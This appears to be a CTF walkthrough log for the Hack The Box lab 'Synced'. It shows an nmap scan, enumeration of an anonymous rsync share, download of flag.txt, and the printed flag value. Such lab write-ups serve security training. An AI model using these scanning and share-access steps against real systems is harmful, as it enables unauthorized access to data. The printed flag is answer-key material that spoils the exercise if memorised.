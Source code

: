 Hack the Box
Starting Point

Synced

10.129.45.128

$ nmap -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/synced 10.129.45.128
Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-18 04:19 Americas
Warning: 10.129.45.128 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.45.128
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT     STATE    SERVICE   VERSION
873/tcp  open     rsync     (protocol version 31)
1108/tcp filtered ratio-adp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.41 seconds

$ rsync --list-only 10.129.45.128::
public         	Anonymous Share

$ rsync --list-only 10.129.45.128::public
drwxr-xr-x          4,096 2022/10/24 22:02:23 .
-rw-r--r--             33 2022/10/24 21:32:03 flag.txt

$ rsync 10.129.45.128::public/flag.txt flat.txt
abc@cd1d95f54ad3:~/BlueGh05t/CTF/HTB/starting_point/synced$ exa
flat.txt  nmap  readme.md
abc@cd1d95f54ad3:~/BlueGh05t/CTF/HTB/starting_point/synced$ cat flat.txt 
72eaf5344ebb84908ae543a719830519
